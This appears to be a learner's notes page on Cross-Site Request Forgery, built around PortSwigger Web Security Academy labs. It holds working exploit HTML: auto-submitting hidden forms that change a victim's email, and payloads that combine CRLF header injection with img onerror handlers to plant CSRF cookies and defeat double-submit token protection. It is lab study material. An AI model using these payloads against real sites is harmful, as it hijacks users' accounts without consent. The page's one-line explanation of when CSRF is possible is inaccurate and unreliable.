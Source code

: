 # Cross-Site Request Forgery

Cross-Site Request Forgery (CSRF) occurs when a web application allows an attacker to manipulate a victim's browser to perform actions on the victim's behalf without their consent.

## Understanding CSRF

CSRF attacks are possible if the website enables attackers to set cookies in a victim's browser, leading to unauthorized actions being performed.

### Key Terminology

- WSA: Web Security Academy
- CSRF: Cross-Site Request Forgery

### Practice Lab

For practical experience and further insights into CSRF vulnerabilities, you can access the [Practice Lab](https://portswigger.net/web-security/csrf).

## Basic CSRF HTML from WSA Labs

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

### WSA Lab Exploits

Double submit CSRF vuln -- where token is duplicated in cookie and the search function has no CSRF protection:

```html
<img src="https://ac601faf1e15b2b6c001282f00970098.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit();"/>
```

#### Lab 5
```html
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://ac151f291fb50bc28036e5bb00f6000b.web-security-academy.net/my-account/change-email" method="post" id="csrf-form" target="csrf-iframe">
            <input type="hidden" name="email" value="test5@test.ca">
            <input type="hidden" name="csrf" value="SXsROOTp3jzq6M5UzIL2KkJIqGpffIQb">
        </form>

        <img style="display:none;" src="https://ac151f291fb50bc28036e5bb00f6000b.web-security-academy.net/?search=hat%0d%0aSet-Cookie:%20csrfKey=ho7GGxMe4EZSrQ8xZ0sBDq2yW0ey9bKH" onerror="document.forms[0].submit()">
    </body>
</html>
```

#### Lab 6
```html
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://ac601faf1e15b2b6c001282f00970098.web-security-academy.net/my-account/change-email" method="post" target="csrf-iframe">
            <input type="hidden" name="email" value="testboyifyoudonot@test.ca">
            <input type="hidden" name="csrf" value="hacked">
        </form>

        <img style="display:none;" src="https://ac601faf1e15b2b6c001282f00970098.web-security-academy.net/?search=hat%0d%0aSet-Cookie:%20csrf=hacked" onerror="document.forms[0].submit()">
    </body>
</html>
```